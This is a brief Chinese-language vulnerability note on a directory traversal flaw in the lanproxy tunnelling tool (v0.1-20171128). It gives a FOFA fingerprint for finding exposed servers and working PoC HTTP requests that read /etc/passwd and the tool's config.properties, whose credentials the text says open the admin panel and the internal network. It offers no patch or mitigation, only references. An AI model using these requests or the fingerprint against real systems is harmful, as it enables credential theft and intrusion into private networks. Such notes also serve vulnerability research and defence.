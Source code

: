 # lanproxy 目录遍历漏洞（CVE-2020-3019）

lanproxy是一个内网穿透工具，lanproxy v0.1-20171128版本存在目录遍历漏洞，可直接读取配置文件获取账号密码登录lanproxy后台，从而可以直接进入内网。


FOFA：

```
"Server: LPS-0.1"
```

PoC：

```bash
GET /../../../../../../../../../../../../../../etc/passwd HTTP/1.1
lanproxy配置文件：
GET /../conf/config.properties HTTP/1.1
```

ref：

* https://github.com/maybe-why-not/lanproxy/issues/1
* https://help.aliyun.com/noticelist/articleid/1060779015.html
* https://github.com/ffay/lanproxy
* https://forum.ywhack.com/thread-114939-1-1.html